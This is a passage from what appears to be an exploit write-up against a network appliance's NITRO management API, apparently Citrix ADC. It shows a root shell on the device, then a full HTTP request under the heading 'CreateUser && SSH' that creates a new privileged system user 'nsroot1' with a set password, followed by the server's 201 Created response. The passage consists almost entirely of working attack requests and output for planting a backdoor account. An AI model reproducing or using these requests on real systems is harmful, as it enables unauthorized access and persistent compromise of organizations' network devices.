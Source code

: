     #                                                                             #
    ###############################################################################

    Password:
    Last login: Sun Jul 12 14:12:44 2020 from 192.168.3.1
     Done
     > shell
    Copyright (c) 1992-2013 The FreeBSD Project.
    Copyright (c) 1979, 1980, 1983, 1986, 1988, 1989, 1991, 1992, 1993, 1994
        The Regents of the University of California. All rights reserved.

    root@localhost

### 0x09 CreateUser && SSH

> request:CreateUser

    POST /nitro/v1/config/systemuser HTTP/1.1
    Host: www.0-sec.org:9080
    Content-Length: 83
    Cache-Control: max-age=0
    Accept: application/json
    rand_key: 845810655.1594556994263502
    NITRO_WEB_APPLICATION: true
    If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
    DNT: 1
    Content-Type: application/json
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
    Cookie: is_cisco_platform=-1; rdx_pagination_size=25%20Per%20Page; SESSID=6c5c31300c22b200f0273e7a13be47cb; startupapp=neo
    Connection: close

    object={"params":{"warning":"YES"},"systemuser":{"username":"nsroot1","password":"nsroot1","timeout":"900","maxsession":"20","logging":"ENABLED","externalauth":"ENABLED"}}

> response:CreateUser

    HTTP/1.1 201 Created
    Date: Sun, 12 Jul 2020 12:46:55 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Access-Control-Allow-Origin: *
    Access-Control-Allow-Credentials: false
    X-XSS-Protection: 1; mode=block
    Content-Length: 57
    Keep-Alive: timeout=15, max=100
    Connection: Keep-Alive
    Content-Type: application/json; charset=utf-8

